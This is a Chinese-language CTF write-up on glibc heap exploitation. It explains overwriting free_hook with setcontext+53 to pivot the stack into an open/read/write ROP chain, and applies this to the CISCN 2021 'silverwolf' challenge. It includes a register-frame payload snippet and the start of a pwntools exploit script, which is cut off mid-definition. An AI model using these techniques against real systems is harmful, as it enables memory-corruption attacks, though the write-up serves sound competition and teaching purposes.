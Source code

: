 ```
```

在禁用execve的情况下，不能直接free_hook跳转one_gadget拿shell，可以覆盖free_hook为 setcontext+53 的地址，则调用free时，堆中的内容就可以被赋值到各个寄存器中，其中也包括rsp，在堆上布置好rop链实现orw

其中堆块上需要填充的内容如下，与SROP中的类似，也可以使用pwntools的SigreturnFrame()生成

```
pd=b'a'*0x28+p64(r8)+p64(r9)+b'a'*0x10+p64(r12)+p64(r13)+p64(r14)+p64(r15)+p64(rdi)
pd+=p64(rsi)+p64(rbp)+p64(rbx)+p64(rdx)+b'a'*8+p64(rcx)+p64(rsp)+p64(jmp)
```

#### 例题 CISCN 2021 初赛 silverwolf

只能使用index为0的chunk，free的时候没有清空堆地址，可以UAF，构造重叠堆块任意地址写后，需要先修改tcache中堆块的size，申请chunk将其放到unsorted_bin中从而泄露libc地址，将free_hook改为 setcontext+53 ，再free布置好调用orw三个函数的rop链的堆块

另外直接调用open函数所使用的系统调用号并不是2，所以会出现bad syscall；可以找到形如`syscall; ret;`这样的gadget直接ROP进行系统调用

exp：

```python
#!/usr/bin/python3

from pwn import *
import sys
import time

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='silverwolf'
libc_name='/home/x1ng/new/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc.so.6'

libc=ELF(libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('', )



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
```